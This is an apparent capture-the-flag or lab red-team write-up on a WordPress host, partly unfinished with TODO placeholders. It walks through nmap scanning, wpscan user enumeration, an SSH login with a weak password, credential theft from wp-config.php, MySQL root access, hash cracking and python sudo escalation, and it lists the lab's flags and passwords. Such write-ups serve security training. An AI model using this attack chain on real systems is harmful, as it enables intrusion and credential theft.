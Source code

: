 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110/24
  
  Nmap scan report for 192.168.1.110
  Host is up (0.0088s latency)
  Not shown: 995 closed ports
  PORT      STATE  SERVICE         VERSION
  22/tcp    open   ssh             OpenSSH 6.7p1 Debian 5_deb8u4 (protocol 2.0)
  80/tcp    open   http            Apache httpd 2.4.10 ((Debian))
  111/tcp   open   rpcbind         2-4 (RPC #100000)
  139/tcp   open   netbios-ssn     Samba smdb 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp   open   netbios-ssn     Samba smdb 3.X - 4.X (workgroup: WORKGROUP)
  MAC Address: 00:15:5D:00:04:11 (Microsoft)
  Running: Linux 3.X|4.X
  OS CPE: cpe:/o:/linux:linux_kernel:3  cpe:/o:linux;linux_kernel:4
  OS details: LInux 3.2 - 4.9
```

This scan identifies the services below as potential points of entry:
- Target 1
  - ssh (port 22)
  - http (port 80)
  - rpcbind (port 111)
  - netbios-ssn (port 139)
  - netbios-ssn (port 445)


_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - wpscan was able to identify two users on the Word Press website hosted by the webserver.
        - wpscan –-url http://192.168.1.110/wordpress -e
        ![Wordpress Users](/images/wpscan-users.PNG)
      - Then, we simply attempted to ssh as these users into the machine. This proved simple, as Michael's password is michael.
        - ssh michael@192.168.1.110
          ![Successful ssh](/images/ssh-michael.PNG)
      - flag 1 was found inside /var/www/html
        - cd /var/www
        - grep -R flag html
          ![flag1](/images/flag1.PNG)
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e851c}
    - **Exploit Used**
      - While connected in as michael, flag 2 was found in the website's root directory.
        - found using find / -type f -iname *flag* 2>/dev/null
        - cat /var/www/flag2.txt
          ![flag2](/images/flag2.PNG)
  - `flag3` : flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - The wordpress configuration files contained the same login and password info that is still in use. 
        - cat /var/www/html/wordpress/wp-config.php
          ![wp-config credentials](/images/mysql-logins.PNG)
      - Using those, we could log into MySQL as root.
        - mysql -u root -p

          ![Into MySQL](/images/mysql-in.PNG)
      - Flag 3 was located in the wp_posts table in the wordpress database. We got there with:
        - show databases;
        - use wordpress;
        - show tables;
        - select * from wp_posts;
          ![Flag3](/images/flag3.PNG)
  - `flag4` : flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Flag 4 was found by using ssh to log in as steven, and escalating privileges to root.
      - First, we grabbed the password hash for steven from the MySQL table wp_users
        - ![SQL Users](/images/wp-sql-users.PNG)
      - We cracked that on our Kali machine using John the Ripper, giving us his password, which is pink84.
      - steven has sudo privileges for python, so we used that to escalate our privileges to root. AS root, we found flag 4 in /root. (Below is a pic retracing the steps taken.)
        - ![Gaining root and finding flag 4](/images/gaining-flag4.PNG)
        - ![Flag 4](/images/flag4.PNG)

